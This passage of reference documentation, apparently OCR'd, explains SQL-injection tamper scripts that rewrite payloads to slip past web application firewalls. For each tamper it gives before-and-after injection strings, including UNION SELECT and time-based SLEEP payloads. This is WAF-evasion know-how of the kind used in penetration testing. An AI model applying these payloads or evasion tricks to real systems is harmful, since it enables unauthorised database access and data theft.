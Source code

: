 -- After using the tamper  
&#49;&#39;&#32;&#65;&#78;&#68;&#32;&#83;&#76;&#69;&#69;&#80;&#40;&#53;&#41;&#35;

- dunion

`Replaces instances of <int> UNION with <int>DUNION. For example:

-- First payload  
1 UNION ALL SELECT  
  
-- After using the tamper  
1DUNION ALL SELECT

- equaltolike

Replaces all occurrences of operator equal (‘=’) with `LIKE` counterpart. For example:

-- First payload  
SELECT * FROM users WHERE id=1  
  
-- After using the tamper  
SELECT * FROM users WHERE id LIKE 1

- equaltorlike

Replaces all occurrences of operator equal (‘=’) with `RLIKE` counterpart. For example:

-- First payload  
SELECT * FROM users WHERE id=1  
  
-- After using the tamper  
SELECT * FROM users WHERE id RLIKE 1

- escapequotes

Slash escape single and double quotes. For example:

-- First payload  
1" AND SLEEP(5)#  
1' AND SLEEP(5)#  
  
-- After using the tamper  
1\\" AND SLEEP(5)#  
1\\' AND SLEEP(5)#

- greatest

Replaces greater than operator (‘>’) with `GREATEST` counterpart. For example:

-- First payload  
1 AND A > B  
  
-- After using the tamper  
1 AND GREATEST(A,B+1)=A

- halfversionedmorekeywords

Adds (MySQL) versioned comment before each keyword. For example:

-- First payload  
' UNION ALL SELECT  
  